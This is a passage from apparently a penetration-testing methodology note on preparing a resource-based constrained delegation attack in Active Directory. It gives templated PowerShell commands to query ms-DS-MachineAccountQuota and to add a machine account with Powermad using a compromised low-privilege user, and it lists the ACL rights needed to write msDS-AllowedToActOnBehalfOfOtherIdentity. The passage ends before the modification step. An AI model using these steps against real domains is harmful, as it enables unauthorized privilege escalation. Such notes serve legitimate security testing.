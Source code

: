 
###### [Optional - For ACL exploit] Creation of a controlled service account

As the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute must refer to a
valid `SPN` (defined in the domain and `DNS`-resolvable), an account defining
such `SPN` must be controlled in order to request `S4U2self` `service tickets`
for the targeted service.

As machine accounts register various `SPNs` (`HOST\<HOSTNAME>`,
`CIFS\<HOSTNAME>`, etc.) and, by default, any domain users may add up to 10
machine accounts to a domain, a machine account may be added to the domain
using a compromised low-privileges user to meet the attack prerequisites. The
number of machine accounts any user may add in the domain is controlled by the
`ms-DS-MachineAccountQuota` attribute of the domain root object.

The `RSAT` `ActiveDirectory` module's `Get-ADObject` and `PowerView`'s
`Get-DomainObject` PowerShell cmdlets can be used to retrieve the value of the
current or specified domain's `ms-DS-MachineAccountQuota` attribute:

```bash
Get-ADObject ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota

# DOMAIN_ROOT_OBJECT = "DC=LAB,DC=AD" for example
Get-ADObject -Server <DC_IP | DC_HOSTNAME> -Credential <PSCredential> -Identity <DOMAIN_ROOT_OBJECT> -Properties ms-DS-MachineAccountQuota

Get-DomainObject <DOMAIN | DOMAIN_ROOT_OBJECT> -Properties Name,DistinguishedName,ObjectSID,ms-DS-MachineAccountQuota
Get-DomainObject -Server <DC_IP | DC_HOSTNAME> -Credential <PSCredential> <DOMAIN | DOMAIN_ROOT_OBJECT> -Properties Name,DistinguishedName,ObjectSID,ms-DS-MachineAccountQuota
```

The `Powermad`'s `New-MachineAccount` PowerShell cmdlet can be used to add a
machine account into the current or specified Active Directory domain:

```bash
New-MachineAccount -Verbose -MachineAccount <MACHINE_ACCOUNT_NAME> -Password $(ConvertTo-SecureString '<MACHINE_ACCOUNT_PASSWORD>' -AsPlainText -Force)

New-MachineAccount -Verbose -DomainController <DC_IP> -Credential <PSCredential> -MachineAccount <MACHINE_ACCOUNT_NAME> -Password $(ConvertTo-SecureString '<MACHINE_ACCOUNT_PASSWORD>' -AsPlainText -Force)
```

###### [Optional - For ACL exploit] Modification of the msDS-AllowedToActOnBehalfOfOtherIdentity attribute

In order to conduct the modification, the right to write the
`msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the domain object is
required. This right can be granted:
  - specifically (`WriteProperty` / `GenericWrite` on
    `GUID: 3f78c3e5-f79a-46bd-a0b8-9d18116ddc79`),
  - indirectly through ownership of the object,
  - directly and indirectly through broader control rights on the object
    (`GenericAll`, `WriteOwner`, `WriteDACL`, `WriteProperty` / `GenericWrite`
    on all attributes).   
